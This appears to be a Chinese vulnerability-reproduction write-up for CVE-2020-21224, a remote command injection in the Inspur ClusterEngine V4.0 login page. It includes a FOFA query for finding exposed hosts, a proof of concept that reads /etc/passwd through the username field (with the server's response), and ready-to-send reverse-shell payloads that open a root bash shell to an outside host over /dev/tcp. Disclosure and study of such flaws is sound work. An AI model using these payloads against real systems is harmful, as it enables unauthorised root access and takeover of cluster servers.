# 浪潮ClusterEngineV4.0 远程命令执行漏洞 CVE-2020-21224

## 漏洞描述

浪潮服务器群集管理系统存在危险字符未过滤，导致远程命令执行

## 漏洞影响

<a-checkbox checked>浪潮ClusterEngineV4.0</a-checkbox></br>

## FOFA

<a-checkbox checked>title="TSCEV4.0"</a-checkbox></br>

## 漏洞复现

登录页面如下


由于登录页面没有发现验证码，进行账号爆破

当burpsuite爆破完成时，注意到POST数据中如果带有 ;' ，响应数据包发生异常。





通过响应包信息，猜测可能存在一个远程执行代码漏洞，并将此数据包放在repeater中，我发现如果发布数据中有


一个 ' ，系统将抛出异常。








进一步测试时，我发现username参数或password任一参数如果包含 ' ，将引发此异常





定尝试发送 ' ' 来查看响应包。





我注意到 grep 命令错误，服务端的代码可能是这样


```shell
var1 = `grep xxxx` 
var2 = $(python -c "from crypt import crypt;print crypt('$username','$1$$var1')")
```


尝试发送 -V 和 --help 来查看响应包，响应包证实了猜测








尝试读取  **/etc/passswd**





尝试列目录





确认存在一个远程执行命令执行漏洞，经过fuzz，得到以下payload






反弹 shell

```shell
op=login&username=1 2\',\'1\'\); `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```


payload发送后, 在 kali linux 服务器上获取了一个 root 权限的 shell


上面是原文的测试思路，但经过重新测试之后发现还有另一种简单方法

```plain
POC测试(出现 root:x:0:0 则存在漏洞)
op=login&username=test`$(cat /etc/passwd)`

{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user test does not exist\nerror:1\n"}

反弹shell
op=login&username=test`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`
```




## 